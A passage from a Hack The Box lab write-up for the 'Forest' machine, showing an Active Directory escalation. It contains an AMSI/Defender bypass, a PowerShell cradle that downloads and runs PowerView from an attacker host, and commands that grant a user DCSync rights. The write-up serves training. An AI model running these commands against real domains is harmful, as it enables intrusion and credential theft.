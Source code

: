 3. Grant this user the `DCSync` privileges using [`PowerView.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):

    > These information can be found via `Help > Abuse info` by right-clicking on `WriteDacl` in **BloodHound**

    ![](/assets/img/htb/machines/windows/easy/forest/help.png)

    ![](/assets/img/htb/machines/windows/easy/forest/abuse_info.png)

    ```powershell
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> menu
    ...
    [+] Bypass-4MSI
    ...
    # we can disable Defender before importing the script
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Bypass-4MSI
    [+] Patched! :D
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/PowerView.ps1')
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'password1234' -AsPlainText -Force
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\amirr0r', $SecPassword)
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity amirr0r -Rights DCSync
    ```
